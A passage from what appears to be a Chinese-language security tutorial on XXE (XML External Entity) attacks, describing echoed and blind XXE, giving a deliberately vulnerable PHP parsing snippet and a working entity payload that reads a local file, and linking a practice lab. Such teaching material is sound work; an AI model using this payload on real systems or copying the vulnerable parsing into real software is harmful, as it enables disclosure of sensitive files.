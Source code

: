 [![](assets/1698897471-ce50cacf069548f39a4ba9e47ffbe63d.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151423-5dc4ee0c-14d3-1.jpg)

#### XXE 常见利用方式

与 SQL 相似，XXE 漏洞也分为有回显和无回显  
有回显，可以直接在页面中看到 payload 的执行结果或现象。  
无回显，又称为 blind xxe，可以使用外带数据 (OOB) 通道提取数据。即可以引用远程服务器上的 XML 文件读取文件。

##### 1、读取任意文件

首先准备一个有 XXE 漏洞的文件，这里以 php 文件为例  
示例代码

```plain
<?php
$xml = simplexml_load_string($_REQUEST['xml']);
print_r($xml);//注释掉该语句即为无回显的情况
?>
```

构造 payload

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY file SYSTEM "file:///d://qwzf.txt" >
]>
<root>
<name>&file;</name>
</root>
```

[![](assets/1698897471-43e7c6a750bef5640711b905ab2af2d8.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151458-73114cba-14d3-1.jpg)  
读取文件，需 URL 编码后执行。  
通过**构造外部实体 payload**，在 xml 中 `&file ;` 变成了外部文件`qwzf.txt`中内容，导致敏感信息泄露。  
**靶场练习**  
使用一下靶场练习回显读取文件和无回显读取文件：[xxe-lab](https://github.com/c0ny1/xxe-lab)  